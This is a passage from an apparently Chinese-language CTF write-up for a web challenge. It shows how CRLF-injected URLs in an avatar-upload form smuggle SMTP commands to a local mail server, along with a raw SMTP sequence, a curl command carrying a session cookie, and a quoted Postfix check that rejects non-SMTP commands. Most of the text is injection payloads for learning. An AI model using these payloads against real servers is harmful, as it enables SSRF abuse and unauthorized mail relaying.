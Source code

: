    ```
   -----------------------------4693211868403427471435307016
   Content-Disposition: form-data; name="url"
   
   https://[0.0.0.0%0ahelo 1v3m%0amail from:<qaewjlfnwej@o3enzyme.com>%0arcpt to:<root>%0adata%0asubject: give me flag%0a%0a1v3m%0a.%0a]:25
   -----------------------------4693211868403427471435307016
   Content-Disposition: form-data; name="action"
   
   save
   -----------------------------4693211868403427471435307016--
   ```

8. solution2

   参考网址：https://github.com/p4-team/ctf/tree/master/2018-07-21-ctfzone-quals/web_mmorpg

   ```
   HELO 127.0.0.1
   MAIL FROM:<A@B.c>
   RCPT TO:<1096026150@qq.com>
   DATA
   From: AAA@B.C
   To: 1096026150@qq.com
   Subject: give me flag
   .
   QUIT
   ```

   payload1:

   ```
   curl 'web-03.v7frkwrfyhsjtbpfcppnu.ctfz.one/user/avatar' -H 'Cookie: session=eyJ1aWQiOjg2NX0.Dkan9A.U5_9q25Izo0Y4yJq__o2oAdRAc0' --data 'url=https://127.0.0.2%0d%0aHELO 127.0.0.2%0aMAIL FROM: <A@B.C>%0aRCPT TO: <1096026150@qq.com>%0aDATA%0aFROM: AAA@B.C%0aTO: 1096026150@qq.com%0aSUBJECT: GIB%0d%0a.%0d%0a%0aQUIT%0a:25&action=save'
   ```

   注意，`url`需要使用`https`,ip地址除了`127.0.0.2`,也可以使用`0.0.0.0`。

   ```
   #define DEF_SMTPD_FORBID_CMDS    "CONNECT GET POST"
   
           /* Ignore smtpd_forbid_cmds lookup errors. Non-critical feature. */
           if (cmdp->name == 0) {
           state->where = SMTPD_CMD_UNKNOWN;
           if (is_header(argv[0].strval)
               || (*var_smtpd_forbid_cmds
            && string_list_match(smtpd_forbid_cmds, argv[0].strval))) {
                   msg_warn("non-SMTP command from %s: %.100s",
                        state->namaddr, vstring_str(state->buffer));
                   smtpd_chat_reply(state, "221 2.7.0 Error: I can break rules, too. Goodbye.");
                   break;
               }
           }
   ```
